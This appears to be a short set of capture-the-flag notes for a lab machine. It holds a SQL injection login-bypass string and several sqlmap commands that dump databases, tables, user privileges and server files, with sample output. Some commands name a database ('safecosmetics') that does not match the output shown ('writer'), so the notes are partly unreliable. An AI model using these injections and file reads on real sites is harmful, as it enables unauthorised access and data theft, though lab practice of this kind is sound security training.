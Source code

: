 ## database 
good article for sqlmap https://www.hackingarticles.in/file-system-access-on-webserver-using-sqlmap/
## actually it was sql injection
```bash
admin'  or 1=1 or ''='
```
## show databases
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST --dbs --batch
```

```bash
available databases [2]:
[*] information_schema
[*] writer

```
## show tables of particular database
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST --tables -D safecosmetics
```

```bash
Database: writer
[3 tables]
+---------+
| site    |
| stories |
| users   |
	+---------+

```
## show columns of table
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST --columns -D safecosmetics -T users
```

## show current user
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST  --batch --current-user
```

## privilegies
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST  --batch  --privileges
```

```bash
database management system users privileges:
[*] %admin% [1]:
    privilege: FILE

```
## file read
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST --batch --file-read /
```